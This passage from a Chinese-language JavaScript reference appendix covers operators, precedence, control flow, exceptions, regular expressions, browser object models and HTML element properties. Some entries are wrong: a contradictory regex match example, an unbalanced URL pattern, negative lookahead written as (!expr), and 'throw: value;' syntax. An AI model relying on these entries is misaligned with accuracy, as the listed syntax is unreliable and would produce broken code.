
逻辑运算符作用于布尔值，用于构建条件语句。在JavaScript中，逻辑运算符是短路求值的，这意味着一旦逻辑条件得到保证，条件表达式中的其他子表达式就不会再被求值。它们从左到右进行求值。表A-22总结了这些运算符。

**表 A-22：二元逻辑运算符**

| 运算符 | 说明 | 示例 |
|---|---|---|
| `&&` | 逻辑与 | `true && false` |
| `\|\|` | 逻辑或 | `true \|\| false` |
| `!` | 逻辑非 | `! true` |

## 条件运算符

条件运算符是C程序员中广受欢迎的三元运算符。其语法为

```
( expr1 ? expr2 : expr3 )
```

其中 *expr1* 是求值为布尔值的表达式，*expr2* 和 *expr3* 是表达式。如果 *expr1* 求值为 **true**，则表达式取值 *expr2*；否则取值 *expr3*。

#### 类型运算符

类型运算符通常作用于对象或对象属性。最常用的运算符是 **new** 和 **typeof**，但JavaScript还支持一系列其他类型运算符，总结于表A-23。

**表 A-23：二元类型运算符**

| 运算符 | 说明 | 示例 |
|---|---|---|
| **delete** | 如果操作数是数组元素或对象属性，则该操作数从数组或对象中移除。 | `var myArray = [1,3,5];`<br>`delete myArray[1];`<br>`alert(myArray);`<br>// 显示 [1,,5] |
| **instanceof** | 如果第一个操作数是第二个操作数的实例，则求值为true。第二个操作数必须是对象（例如，构造器）。 | `var today = new Date();`<br>`alert(today instanceof Date);`<br>// 显示 true |
| **in** | 如果第一个操作数（字符串）是第二个操作数的属性名，则求值为true。第二个操作数必须是对象（例如，构造器）。 | `var robot = {jetpack:true}`<br>`alert("jetpack" in robot);`<br>// 弹出 true<br>`alert("x-ray vision" in robot);`<br>// 弹出 false |
| **new** | 创建由构造器操作数给定对象的新实例。 | `var today = new Date();`<br>`alert(today);` |
| **void** | 实质上使其表达式操作数的值变为未定义 | `var myArray = [1,3,5];`<br>`myArray = void myArray;`<br>`alert(myArray);`<br>// 显示 undefined |

类型运算符还包括属性访问运算符。要访问对象 *object* 的属性 *property*，以下两种语法是等效的：

```
object.property

object["property"]
```

注意，上面的方括号是"真正的"方括号（它们不表示可选组件）。

#### 逗号运算符

逗号运算符允许将多条语句作为一条语句执行。该运算符的语法为

```
statement1, statement2 [, statement3] ...
```

如果用于表达式中，其值为最后一条语句的值。逗号通常用于分隔声明中的变量或函数调用中的参数。

#### 关系运算符

关系运算符（详见表A-24）是比较两个同类型值的二元运算符，求值为一个布尔值，表示该关系是否成立。如果两个操作数类型不同，会进行类型转换以便进行比较（有关更多信息，请参见紧随其后的部分）。

**表 A-24：二元关系运算符**

| 运算符 | 说明 |
|---|---|
| `<` | 如果第一个操作数小于第二个操作数，则求值为true |
| `<=` | 如果第一个操作数小于或等于第二个操作数，则求值为true |
| `>` | 如果第一个操作数大于第二个操作数，则求值为true |
| `>=` | 如果第一个操作数大于或等于第二个操作数，则求值为true |
| `!=` | 如果第一个操作数不等于第二个操作数，则求值为true |
| `==` | 如果第一个操作数等于第二个操作数，则求值为true |
| `!==` | 如果第一个操作数不等于第二个操作数（且它们类型相同），则求值为true |
| `===` | 如果第一个操作数等于第二个操作数（且它们类型相同），则求值为true |

#### 比较中的类型转换

JavaScript实现应按以下步骤比较两个不同的类型：

1. 如果两个操作数都是字符串，则按字典序进行比较。
2. 将两个操作数转换为数字。
3. 如果任一操作数为 **NaN**，返回 **undefined**（转换为布尔值时进而求值为 **false**）。
4. 如果任一操作数为无穷大或零，按照以下规则求值比较：**+0** 和 **–0** 比较结果为 **false**，除非关系包含相等；**Infinity** 永远不会小于任何值；**–Infinity** 永远不会大于任何值。
5. 按数值比较操作数。

**注意** *对不同严格相等（===）或不等（!==）运算符的操作数总是求值为false。*

#### 字典序比较

对字符串执行的字典序比较遵循以下准则。注意，如果两个字符串的前 *n* 个字符相同，则长度为 *n* 的字符串是长度为 *n* 或更长的另一个字符串的"前缀"。因此，例如，字符串总是其自身的前缀。

- 如果两个字符串完全相同，则它们相等（注意，当使用不同字符集创建的两个字符串可能不会比较相等，但这种情况极为罕见，几乎不会发生）。
- 如果一个字符串是另一个字符串的前缀（且它们不相同），则它"小于"另一个。（例如，"a" 小于 "aa"。）
- 如果两个字符串在第 *n* 个字符（可能为第0个字符）之前都相同，则检查第 (*n* + 1) 个字符。（例如，如果要比较 "abc" 和 "abd"，则会检查它们的第三个字符。）
- 如果第一个字符串中检查字符的字符编码数值小于第二个字符串中对应字符的编码数值，则第一个字符串"小于"第二个。（关系 **1 < 9 < A < Z < a < z** 通常有助于记住哪些字符"小于"其他字符。）

#### 运算符优先级和结合性

JavaScript为每个运算符分配优先级和结合性，以便表达式具有明确的定义（即，相同的表达式总是求值为相同的值）。优先级较高的运算符先于优先级较低的运算符求值。结合性决定了相同运算符的求值顺序。给定表达式

```
a ⊗ b ⊗ c
```

左结合运算符会按以下方式求值

```
(a ⊗ b) ⊗ c
```

而右结合运算符会按以下方式求值

```
a ⊗ (b ⊗ c)
```

**表 A-25** 总结了JavaScript中的运算符优先级和结合性。

##### 表 A-25：JavaScript运算符的优先级和结合性

| 优先级 | 结合性 | 运算符 | 运算符含义 |
|---|---|---|---|
| 最高 | 左结合 | `.`, `[]`, `()` | 对象属性访问、数组或对象属性访问、括号表达式 |
| | 右结合 | `++`, `--`, `-`, `~`, `!`, `delete`, `new`, `typeof`, `void` | 前置/后置递增、前置/后置递减、算术取反、按位取反、逻辑取反、移除属性、对象创建、获取数据类型、**undefined** 一个值 |
| | 左结合 | `*`, `/`, `%` | 乘法、除法、取模 |
| | 左结合 | `+`, `-` | 加法（算术）和连接（字符串）、减法 |
| | 左结合 | `<<`, `>>`, `>>>` | 按位左移、按位右移、按位右移零填充 |
| | 左结合 | `<`, `<=`, `>`, `>=`, `in`, `instanceof` | 小于、小于或等于、大于、大于或等于、对象具有属性、对象是某类的实例 |
| | 左结合 | `==`, `!=`, `===`, `!==` | 相等、不等、相等（含类型检查）、不等（含类型检查） |
| | 左结合 | `&` | 按位与 |
| | 左结合 | `^` | 按位异或 |
| | 左结合 | `\|` | 按位或 |
| | 左结合 | `&&` | 逻辑与 |
| | 左结合 | `\|\|` | 逻辑或 |
| | 右结合 | `? :` | 条件运算符 |
| | 右结合 | `=` | 赋值 |
| | 右结合 | `*=`, `/=`, `%=`, `+=`, `-=`, `<<=`, `>>=`, `>>>=`, `&=`, `^=`, `\|=` | 运算并自赋值 |
| 最低 | 左结合 | `,` | 多重求值 |


### 流程控制结构

本节详细介绍 JavaScript 中可用的流程控制结构，其中第一个结构是简化其他结构语法的基本组成部分。

#### 块语句

虽然块语句本身并非真正的流程控制结构，但它允许将多个语句用花括号括起来视为一个整体：

```
{
    statements
}
```

其中 *statements* 由零个或多个有效的 JavaScript 语句组成。语句总是可以像这样分组，作为循环或函数的主体，或者直接在脚本中使用，尽管块仅为其内部的函数提供自己的局部作用域。

#### with 语句

```
with ( objectExpression )
    statement
```

当 *statement* 执行时，*objectExpression* 求值所得的对象会被置于作用域链的最前端。因此，*statement* 中的语句无需显式使用属性访问运算符，即可利用该对象的方法和属性。**with** 语句的一个示例如下所示：

```
with (document)
{
    write("hello ");
    write("world ");
    write("last modified on " + lastModified);
}
```

#### 函数

原始类型按值传递给函数。复合类型按引用传递。函数拥有自己的局部作用域。采用的是静态作用域。

```
function identifier( [ arg1 [, arg2 [, ... ] ] ] )
{
    statements
}
```

在函数内部，你可以使用 **return** 语句返回一个值：

```
    return [expression];
```

如果省略 *expression*，函数将返回 **undefined**。这里有一个小示例：

```
function timesTwo(x)
{
    alert("x = "+x);
    return x * 2;
}
result = timesTwo(3);
alert(result);
```

你可以通过访问函数的 **length** 属性来检查该函数期望接收多少个参数：

```
    functionName.length
```

参数值除了在调用时被放置到声明的参数中外，还可以通过 ***functionName.arguments[]*** 数组访问。该数组保存了实际传递给函数的值，因此它所包含的参数数量可能与函数期望的数量不同。

#### 条件语句

JavaScript 支持常见的 **if** 条件语句，它有多种形式：

```
    if (expression) statement
    if (expression) statement **else** statement
    if (expression) statement **else if** (expression) statement ...
    if (expression) statement **else if** (expression) statement ... **else** statement
```

此处演示一个 **if** 语句示例：

```
if (hand < 17)
    alert('Better keep hitting');
else if ((hand >= 17) && (hand <= 21))
    alert('Stand firm');
else
    alert('Busted!');
```

鉴于嵌套 **if** 语句的冗长，JavaScript 与许多语言一样，支持 **switch** 语句，其语法如下：

```
switch (expression)
{
    case val1: statement
                [ break; ]
    case val2: statement
                [ break; ]
    ...
    default: statement
}
```

这里展示了一个简单的 **switch** 语句：

```
var ticket='First Class';

switch (ticket)
{
    case 'First Class': alert("Big Bucks ");
                        break;
    case 'Business': alert("Expensive, but worth it? ");
                     break;
    case 'Coach': alert("A little cramped but you made it.");
                  break;
    default: alert("Guess you can't afford to fly?");
}
```

**break** 语句用于退出与 **switch** 关联的块，必须包含它以避免可能非预期的各种情况的穿透执行。然而，省略 **break** 可能是有意为之，因为它可以方便地模拟“或”条件。

#### 循环

JavaScript 支持常见的循环形式，包括以下几种。

1. **for** ( [ initStatement ] ; [ logicalExpression ] ; [ iterationStatement ] )
    statement

2. **while** ( expression ) statement

3. do  statement  while ( expression );

三种循环的演示如下：

```
for (var i=0; i < 10; i++)

   document.write(i+"<br />");
```

```
var i = 0;

while (i < 10)

 {

   document.write(i+"<br />");

   i++;

 }
```

```
var i = 0;

do

{

  document.write(i+"<br />");

  i++;

} while (i < 10)
```

**break** 和 **continue** 语句通常出现在循环体中，将在[下一节](#)中讨论。

JavaScript 还支持 **for** 循环的一种变体（**for/in**），它对于枚举对象的属性很有用：

```
for ( [ var ] variable in objectExpression )  statement
```

这里的简单示例展示了如何使用 **for/in** 打印浏览器的 **window.navigator** 对象的属性。

```
for (var aProp in window.navigator)

 document.write(aProp + "<br />");
```

##### 标签语句、Break 和 Continue

可以使用以下方式为语句添加标签

*label: statement*

要跳转到块中的带标签语句，可以使用

```
break *label*;
```

或

```
continue *label*;
```

否则：

- **break** 退出循环，从循环体之后开始执行。
- **continue** 直接跳转到循环的下一次迭代（“顶部”）。

#### 异常

你可以捕获程序员生成的异常和运行时异常，但无法捕获 JavaScript 语法错误。你可以实例化表 A-26 中的任何异常，但解释器生成的异常通常是 **Error** 类型。

**表 A-26：JavaScript 异常对象**

| 异常对象 | 描述 |
|---|---|
| **Error** | 通用异常 |
| **EvalError** | 当 **eval()** 使用不当时抛出。 |
| **RangeError** | 当数字超过最大允许范围时抛出。 |
| **ReferenceError** | 当使用无效引用（这种情况很少见）时抛出。 |
| **SyntaxError** | 当运行时发生某种语法错误时抛出。请注意，“真正的” JavaScript 语法错误是无法捕获的。 |
| **TypeError** | 当操作数类型意外时抛出。 |
| **URIError** | 当 Global 对象的 URI 相关函数使用不当时抛出。 |

你可以直接使用 **throw** 来触发异常。

```
throw: value;
```

*value* 可以是任何值，但通常是一个 **Error** 实例。
异常可以通过常见的 **try/catch/finally** 块结构来处理。

```
try {
    statementsToTry
} catch ( e ) {
    catchStatements
} finally {
    finallyStatements
}
```

**try** 块之后必须紧跟一个 **catch** 块或一个 **finally** 块（或两者都有）。当 **catch** 块中发生异常时，异常会被放入 *e*，然后执行 **catch** 块。**finally** 块在 **try/catch** 之后无条件执行。

### 正则表达式

JavaScript 支持正则表达式，常用于过滤和验证用户输入。第 8 章将详细讨论正则表达式。表 A-27 中展示了一些示例，以提醒你其格式。

**表 A-27：一些正则表达式示例**

| 正则表达式 | 匹配 | 不匹配 |
|---|---|---|
| /\Wten\W/ | ten | ten, tents |
| /\wten\w/ | aten1 | ten, 1ten |
| /\bten\b/ | ten | attention, tensile, often |
| /\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}/ | 128.22.45.1 | abc.44.55.42, 128.22.45. |
| /^http|ftp|https):\/\/.*/ | https://www.w3c.org,http://abc | file:///etc/motd, https//www.w3c.org |

我们在表 A-28 至 A-33 中总结了正则表达式的重要标志、重复指示符、转义代码和相关对象属性。详细讨论请参见第 8 章。

**表 A-28：正则表达式标志**

| 字符 | 含义 |
|---|---|
| i | 不区分大小写。 |
| g | 全局匹配。在字符串中查找 *所有* 匹配项，而不仅仅是第一个。 |
| m | 多行匹配。 |

**表 A-29：正则表达式重复量词**

| 字符 | 含义 |
|---|---|
| * | 匹配前项零次或多次 |
| + | 匹配前项一次或多次 |
| ? | 匹配前项零次或一次 |
| {m, n} | 匹配前项至少 *m* 次，但不超过 *n* 次 |
| {m, } | 匹配前项 *m* 次或更多次 |
| {m} | 匹配前项恰好 *m* 次 |

**表 A-30：正则表达式字符类**

| 字符 | 含义 |
|---|---|
| [chars] | 括号内明确指定的或表示范围的任意一个字符 |
| [^chars] | 不在括号内明确指定的或表示范围的任意一个字符 |
| . | 除换行符外的任何字符 |


| 字符 | 含义 |
| --- | --- |
| **\w** | 任意单词字符。等同于 [a-zA-Z0-9_] |
| **\W** | 任意非单词字符。等同于 [^a-zA-Z0-9_] |
| **\s** | 任意空白字符。等同于 [ \t\n\r\f\v] |
| **\S** | 任意非空白字符。等同于 [^ \t\n\r\f\v] |
| **\d** | 任意数字。等同于 [0-9] |
| **\D** | 任意非数字。等同于 [^0-9] |
| **\b** | 单词边界。`\w` 与 `\W` 之间的空"位置" |
| **\B** | 非单词边界。单词字符之间的空"位置" |
| **[\b]** | 退格字符 |

#### 表 A-31：正则表达式转义码

| 转义码 | 匹配内容 |
| --- | --- |
| **\f** | 换页符 |
| **\n** | 换行符 |
| **\r** | 回车符 |
| **\t** | 制表符 |
| **\v** | 垂直制表符 |
| **\/** | 斜杠 (/) |
| **\\** | 反斜杠 (\) |
| **\.** | 句点 (.) |
| **\*** | 星号 (*) |
| **\+** | 加号 (+) |
| **\?** | 问号 (?) |
| **\|** | 竖线，又称管道符 (|) |
| **\(** | 左括号 (() |
| **\)** | 右括号 ()) |
| **\[** | 左方括号 ([) |
| **\]** | 右方括号 (]) |
| **\{** | 左花括号 ({) |
| **\}** | 右花括号 (}) |
| **\OOO** | 由八进制值 OOO 表示的 ASCII 字符 |
| **\xHH** | 由十六进制值 HH 表示的 ASCII 字符 |
| **\uHHHH** | 由十六进制值 HHHH 表示的 Unicode 字符 |
| **\cX** | 由 ^X 表示的控制字符，例如 `\cH` 表示 CTRL-H |

#### 表 A-32：高级正则表达式特性

| 特性 | 描述 |
|---|---|
| `(?:expr)` | 非捕获括号。不会使给定的带括号子表达式 *expr* 可用于反向引用。 |
| `(?=expr)` | 正向前瞻。仅当前一项后面跟有匹配 *expr* 的字符串时，才强制前一项进行匹配。匹配 *expr* 的文本不会包含在前一项的匹配结果中。 |
| `(!expr)` | 负向前瞻。仅当前一项后面**没有**跟有匹配 *expr* 的字符串时，才强制前一项进行匹配。未匹配 *expr* 的文本不会包含在前一项的匹配结果中。 |
| `?` | 非贪婪匹配。强制紧邻其前的重复量词只匹配所需的最少字符数。 |

#### 表 A-33：RegExp 对象的静态属性

| 属性 | 值 |
|---|---|
| **$1, $2, ..., $9** | 存放最近一次匹配中前九个带括号子表达式的文本的字符串。 |
| **index** | 存放最近一次模式匹配中第一个字符的字符串索引值。此属性不属于 ECMA 标准，但已被广泛支持。因此，使用 **RegExp** 模式的 **length** 属性和 **lastIndex** 属性来计算此值可能更为可靠。 |
| **input** | 包含与模式进行匹配的默认字符串的字符串。 |
| **lastIndex** | 指定字符串中下一次匹配起始位置的整数。与实例属性相同，建议使用实例属性代替。 |
| **lastMatch** | 包含最近一次匹配的文本的字符串。 |
| **lastParen** | 包含最近一次匹配中最后一个带括号子表达式的文本的字符串。 |
| **leftContext** | 包含最近一次匹配左侧文本的字符串。 |
| **rightContext** | 包含最近一次匹配右侧文本的字符串。 |

## 附录 B：JavaScript 对象参考

本附录提供 JavaScript 中可用对象的参考，包括其属性、方法、事件处理程序以及在主流浏览器中的支持情况。[www.javascriptref.com](http://www.javascriptref.com) 支持站点也提供了本附录中的大部分信息。

### 对象模型

*对象模型*定义了脚本用于检查和操作结构化信息（例如 (X)HTML 文档）的接口。对象模型定义了其组成部分的构成和特征，以及如何对其进行操作。JavaScript 对象模型的"全局视图"如 [图 B-1](#figure-b-1) 所示。


**图 B-1：** JavaScript 对象模型的"全局视图"

JavaScript 中有四种可用对象：

- *用户自定义对象*由程序员创建，因此不受任何标准约束，本附录*不*对此进行讨论。这些对象*未*在 [图 B-1](#figure-b-1) 中显示。

- *内置对象*用于常见任务，如正则表达式和日期操作，以及与 JavaScript 数据类型相关的任务。这些对象受 ECMAScript 标准（ECMA-262）约束，在各浏览器中相当一致。

- *浏览器对象*是浏览器对象模型（BOM）的一部分，即特定浏览器中所有非内置对象的总和。这些对象提供了检查和操作浏览器本身的能力，包括窗口的大小和形状以及配置信息。这些对象不属于任何标准，但通常遵循多年来逐渐形成的通用结构规范。

- *文档对象*代表当前由浏览器加载的 HTML（或 XML）文档的元素。传统上，不同的浏览器对文档对象的操作实现了不同的特性和接口，但最近这些对象已被 W3C 文档对象模型所标准化。

如 [图 B-1](#figure-b-1) 所见，文档对象模型属于浏览器提供的对象范畴。因此，早期的文档对象模型高度依赖于特定浏览器，事实上与 BOM 紧密交织，以至于试图分别对两者进行规范实际上没有太大意义。

#### JavaScript 语言与内置对象
（遵循 ECMA 262 标准）

核心语言定义（语句、运算符、表达式等）

Math

String

Boolean

Number

Date

Array

Object

Function

RegExp

#### 浏览器对象模型
（非标准）

Window

document

文档对象模型
传统模式或 DOM 模式

frames[ ]

history

location

navigator

图 B-1

##### 浏览器的对象模型

本节包含对 Netscape 和 Internet Explorer 主要版本中存在的不同浏览器/文档对象模型的一般参考和基本回顾。

注意 *文档对象的引用方式随着时间的推移而演变。例如，**links[]** 集合中的内容在传统模型中被视为 **Link** 对象，而现在更多地被视为文档中 **\<a href = "..." \>** 标签创建的 **\<a\>** 元素对象。更复杂的是，**links[]** 集合成员的正式 DOM 名称是 **HTMLAnchorElement** 对象。需要记住的重要一点是，尽管这些名称可能不同，但它们都指代同一事物：一个可被 JavaScript 访问的对象，对应于文档中某个特定 HTML 元素的实例。*

##### 传统对象模型

这是所有支持脚本的浏览器通用的基本对象模型。它在 Netscape 2 和 Internet Explorer 3 中实现，如图 B-2 所示。此模型仅提供了有限的事件支持。


**图 B-2：** Netscape 2 和 Internet Explorer 3 的传统对象模型

##### Netscape 3

Netscape 3 使页面的更多部分可供脚本访问，并首次通过其 **images[]** 集合提供了动态操作图像的能力。此外，Java 小程序（通过 **applets[]** 集合和 LiveConnect 功能）和嵌入式对象也可通过脚本控制。该浏览器还提供了 MIME 类型和插件检测功能。其对象模型如图 B-3 所示。


**图 B-3**：Netscape 3 的对象模型

##### Internet Explorer 3

Internet Explorer 3 的模型本质上就是传统对象模型，如图 B-4 所示。


**图 B-4**：Internet Explorer 3 的对象模型

##### Netscape 4


[content]
###### Netscape 4 通过将专有的 <layer> 元素暴露给脚本，首次添加了原始的 DHTML 功能。该浏览器还拥有更完善的事件模型，事件从层次结构的顶部开始，向下传递到目标元素，使中间对象有机会处理或重定向事件。虽然看起来可以动态操作样式，但页面加载后，页面的大部分部分不会反映对其样式的更改。

此模型如图 B-5 所示。


##### Internet Explorer 4+

Internet Explorer 4 标志着 DHTML 功能开始成熟的转折点。该浏览器通过 all[] 集合将页面的所有部分暴露给脚本。事件模型具有事件冒泡功能，事件在其产生的元素处开始生命周期，并沿层次结构向上冒泡，使中间元素有机会处理或重定向事件。此模型如图 B-6 所示。


**图 B-6：** Internet Explorer 4+ 对象模型

尽管 Internet Explorer 的后续版本增加了大量新功能，但 IE 文档对象模型的核心方面基本上保持不变。

##### Internet Explorer 5.5+、Netscape 6 和 DOM

DOM 属性和方法的支持在 Internet Explorer 的各个版本中逐渐成熟，但在 Netscape 6 中一次性全部实现。Netscape 6 保留了所谓的 DOM0 文档对象，基本上是传统模型中的那些对象，并添加了对 W3C DOM 方法的支持。Internet Explorer 5.5 也对 DOM 的部分内容提供了相当好的支持，Internet Explorer 6 声称符合 DOM，尽管 5.5 和 6.0 仍然提供 IE4 的模型以保持向后兼容性。

在这个现代模型中，页面的*所有*部分都是可脚本化的，文档被表示为一棵树。对元素和属性的访问是标准化的，文档对象的核心属性和方法集也是标准化的，这些在很大程度上反映了它们对应元素的 HTML 4 属性，如下一节所述。

### JavaScript 对象参考

本节列出了 JavaScript 对象及其属性、方法和支持。对象条目包含以下部分或全部信息：

- **对象名称**（传统名称、IE 名称、DOM 名称）由于对象可以有多个名称，我们尽可能多地列出。我们首先列出更传统的或特定于 IE 的名称，因为按 DOM 名称组织会将所有内容集中在一起，因为它们都以 HTML 前缀开头。
- **对象类型** 指示对象主要是面向文档的还是面向浏览器的，以及它是否是专有的。
- **描述** 简要描述该对象的用途以及如何访问它。
- **构造函数** 描述对象构造函数的语法和语义，如果该对象可以实例化的话。
- **属性** 列出对象提供的属性及其在各种浏览器中的支持情况。还包括任何可能适用于每个属性的标准，特别是当它们与支持部分中的整体条目不同时。
- **方法** 列出对象提供的方法及其在各种浏览器中的支持情况。还包括任何可能适用于每个方法的标准，特别是当它们与支持部分中的整体条目不同时。
- **支持** 指示支持该对象的浏览器以及任何适用于它的标准。浏览器版本表示该对象首次可脚本化的版本。
- **注释** 提供该对象的其他相关信息，如陷阱、不兼容性和错误。

在描述方法和属性时，有时会使用表 B-1 中所示的描述。

#### 表 B-1：偶尔用于描述属性或方法的特性

| 描述 | 含义 |
| :--- | :--- |
| 不可枚举 | 该方法或属性不会在 **for/in** 循环中被枚举。默认情况下，方法不会被枚举。事件处理程序在 Netscape 中也不会被枚举。 |
| 只读 | 属性值是只读的，不可更改。 |
| 静态 | 该属性或方法是对象的静态（类）属性。此类属性和方法通过其构造函数而不是通过实例来访问。例如，**Math** 对象的所有属性都是静态的，因此访问方式为 **Math.property**。 |

参考中最重要的 **Document** 对象将首先讨论。大多数 **Document** 对象都会回引到它。

**注意：** *有大量特定于 Internet Explorer 的 JavaScript 信息，足以填满三本这样大小的书，这些信息可以在 **msdn.microsoft.com**（Microsoft 开发者网络）上找到。特别是，http://msdn.microsoft.com/library/default.asp?url=/workshop/author/dhtml/dhtml.asp（目前）是 Microsoft DHTML 文档的链接。在其下可以找到 DHTML 参考，即 Internet Explorer 支持的对象及其属性和方法的列表。我们在附录中包含了所有主要对象，但在大量在线文档中筛选，还可以发现众多晦涩的、仅 IE 的特性、细节和怪癖。*

### 通用 HTML 元素对象（文档对象）

通用 (X)HTML 元素具有此处描述的形式。此属性、方法和事件处理程序列表几乎适用于所有 (X)HTML 元素对象，实际上，对于大量非常基本的元素（如 <b>、<i> 和 <u>）来说，这些*是唯一*定义的属性和事件处理程序。这些对象中的每一个都对应于页面上一个 (X)HTML 元素的出现。通过标准 DOM 方法（如 **document.getElementById()**）可以访问这些对象之一。

> **注意：** 某些属性对于特定对象没有明确定义的含义，即使这些属性可能已为它们定义。例如，给 <hr> 标签设置 blur 是有趣的，因为在一般的 Web 使用中很难使该对象获得焦点。

#### 属性

- **accessKey** 单个字符的字符串，指示使元素获得焦点的热键。(IE4+)
- **all[]** 对象所包围的元素集合。(IE4+)
- **align** 指定元素对齐方式的字符串，例如 "left"。此属性仅为 **b**、**big**、**cite** 等显示元素定义。(IE4+)
- **attributes[]** 元素的只读属性集合。(IE5+, MOZ/N6+, DOM1)
- **begin** 设置或检索时间线开始播放元素之前的延迟。参见 MSDN。(IE5.5+, SMIL)
- **behaviorUrns[]** 附加到节点的 DHTML 行为集合。(IE5+)
- **canHaveChildren** 只读布尔值，指示元素是否可以拥有子节点。(IE5+)
- **canHaveHTML** 只读布尔值，指示元素是否可以包含 HTML 标记。(IE5.5+)
- **childNodes[]** 对象的只读子节点集合。(IE5+, MOZ/N6+, DOM1)
- **children[]** 只读子节点集合。这是 IE 在 DOM 之前的 **childNodes[]** 等价物。(IE4+)
- **className** 保存元素所属 CSS **class**(es) 值的字符串。(IE4+, MOZ/N6+, DOM1)
- **clientHeight** 只读数值，指示元素内容区域的高度（以像素为单位）。(IE4+)
- **clientLeft** 只读数值，指示 **offsetLeft** 属性与元素内容区域起点之间的差值（以像素为单位）。(IE4+)
- **clientTop** 只读数值，指示 **offsetTop** 属性与元素内容区域起点之间的差值（以像素为单位）。(IE4+)
- **clientWidth** 只读数值，指示元素内容区域的宽度（以像素为单位）。(IE4+)
- **contentEditable** 确定元素内容是否可编辑的字符串。值为 "inherit"、"true" 或 "false"。值为 "inherit" 表示它将继承其父元素的 **contentEditable** 属性（此值为默认值）。此属性对于使表格数据单元格可编辑很有用。将 **disabled** 设置为 **true** 的元素不可编辑，无论此属性的值如何。对应于 **contenteditable** 属性。(IE5.5+)
- **currentStyle** 对反映应用于元素的所有样式（包括全局（默认）样式）的 **Style** 对象的只读引用。(IE5+)
- **dir** 保存元素所包围文本的文本方向的字符串。如果设置，其值为 "ltr"（从左到右）或 "rtl"（从右到左）。(IE5+, MOZ/N6+, DOM1)
- **disabled** 指示元素是否禁用（变灰）的布尔值。(IE4+)
- **document** 对元素所在 **Document** 的未记录引用。(IE4+)
- **filters[]** 应用于元素的 Microsoft CSS 滤镜集合。(IE4+)
- **firstChild** 对元素第一个子节点的只读引用，如果存在的话（否则为 **null**）。(IE5+, MOZ/N6+, DOM1)
- **hasMedia** 只读布尔值，指示元素是否为 HTML+TIME 媒体元素。(IE5.5+)
- **hideFocus** 指示对象在获得焦点时是否给出可见提示的布尔值。(IE5.5+)
- **id** 保存元素唯一字母数字标识符的字符串。通常使用 **id** HTML 属性分配，并用作 **getElementById**() 的目标。此唯一标识符不仅对脚本编写很重要，对 CSS 绑定也很重要。(IE4+, MOZ/N6+, DOM1)


innerHTML 字符串，包含元素标签内的HTML内容。(IE4+, MOZ/N6+)
- innerText 字符串，包含元素标签内的文本。此文本不会被解释为HTML，因此将其设置为类似“<b>Important</b>”的值，将显示“<b>Important</b>”，而不是以粗体显示“Important”。(IE4+)
- isContentEditable 只读布尔值，指示用户是否可以编辑元素的内容。(IE5.5+)
- isDisabled 只读布尔值，指示用户是否可以与对象交互。(IE5.5+)
- isTextEdit 只读布尔值，指示是否可以使用该对象创建**TextRange**对象。(IE4+)
- lang 字符串，包含元素所封装内容的语言代码。对应**lang** HTML属性。有关有效值的完整列表，请参阅RFC 1766 (http://www.ietf.org/rfc/rfc1766.txt?number=1766)，该文档描述了语言代码及其格式。(IE4+, MOZ/N6+, DOM1)
- language 字符串，指示当前使用的脚本语言。(IE4+)
- lastChild 只读引用，指向元素的最后一个子节点（如果存在）（否则为**null**）。(IE5+, MOZ/N6+, DOM1)
- localName 只读字符串，指示对象的“本地”XML名称。(MOZ/N6+)
- namespaceURI 只读字符串，指示对象的XML命名空间URI。(MOZ/N6+)
- nextSibling 只读引用，指向节点的下一个兄弟节点，例如，当其父节点有多个子节点时。(IE5+, MOZ/N6+, DOM1)
- nodeName 只读字符串，包含节点的名称，即对象对应标签的名称，例如“H1”。(IE5+, MOZ/N6+, DOM1)
- nodeType 只读数字，包含DOM定义的节点类型。例如，元素节点的节点类型为**1**。常见节点类型列表可在下表中找到。(IE5+, MOZ/N6+, DOM1)

| 节点类型编号 | 类型 | 描述 | 示例 |
| --- | --- | --- | --- |
| 1 | 元素 (Element) | HTML或XML元素 | \<p\>...\</p\> |
| 2 | 属性 (Attribute) | HTML或XML元素的属性 | align="center" |
| 3 | 文本 (Text) | 将被HTML或XML元素包含的文本片段 | This is a text fragment! |
| 8 | 注释 (Comment) | HTML注释 | \<!-- This is a comment --> |
| 9 | 文档 (Document) | 根文档对象，即解析树中的顶级元素 | \<html\> |
| 10 | 文档类型 (DocumentType) | 文档类型定义 | \<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd"\> |

- nodeValue 字符串，包含节点内的值（如果没有值，则为**null**）。(IE5+, MOZ/N6+, DOM1)
- offsetHeight 只读数值，指示元素的高度（以像素为单位）。(IE4+, MOZ/N6+)
- offsetLeft 只读数值，指示元素左边缘相对于其**offsetParent**的像素偏移量。(IE4+, MOZ/N6+)
- offsetParent 只读引用，指向用于计算**offsetHeight/Width/Left/Top**的相对对象。(IE4+, MOZ/N6+)
- offsetTop 只读数值，指示元素顶部边缘相对于其**offsetParent**的像素偏移量。(IE4+, MOZ/N6+)
- offsetWidth 只读数值，指示元素的宽度（以像素为单位）。(IE4+, MOZ/N6+)
- outerHTML 字符串，包含（包括）元素标签内的HTML内容。(IE4+)
- outerText 字符串，包含（包括）元素标签内的文本。(IE4+)
- ownerDocument 只读引用，指向包含该元素的**Document**对象。(IE5+, MOZ/N6+, DOM1)
- parentElement 指向节点父元素的引用。这是IE的、DOM标准之前的**parentNode**等效属性。(IE4+)
- parentNode 只读引用，指向对象的父节点（如果不存在则为**null**）。(IE4+, MOZ/N6+, DOM1)
- parentTextEdit 只读引用，指向当前对象外部、能够创建包含当前元素的**TextRange**的最内层容器元素。(IE4+)
- prefix 只读字符串，包含对象的“前缀”XML名称。(MOZ/N6+)
- previousSibling 只读引用，指向节点的前一个兄弟节点，例如，当其父节点有多个子节点时。(IE5+, MOZ/N6+, DOM1)
- readyState 只读字符串，包含对象的当前状态。值包括"uninitialized"（未初始化）、"loading"（加载中）、"loaded"（已加载）、"interactive"（交互式，尚未完成加载但能响应用户操作）和"complete"（完成）。对象会逐步经历这些状态直到完成加载，尽管某些对象可能会跳过一些中间步骤（例如，从"uninitialized"直接跳到"complete"）。此属性对于判断元素是否加载完成非常有用。然而，在尝试读取此属性之前，应始终确保该对象存在于**Document**中（否则将引发运行时错误，因为你正试图读取一个尚未定义对象的属性）。请注意，**\<object\>**的**readyState**由0到4的整数表示（含义相同）。(IE4+)
- recordNumber 只读数值，指示生成该元素的数据集的记录编号。(IE4+)
- runtimeStyle 指向反映元素当前（运行时）样式特征的**Style**对象的引用。(IE5+)
- scopeName 只读字符串，包含对象的XML作用域。(IE5+)
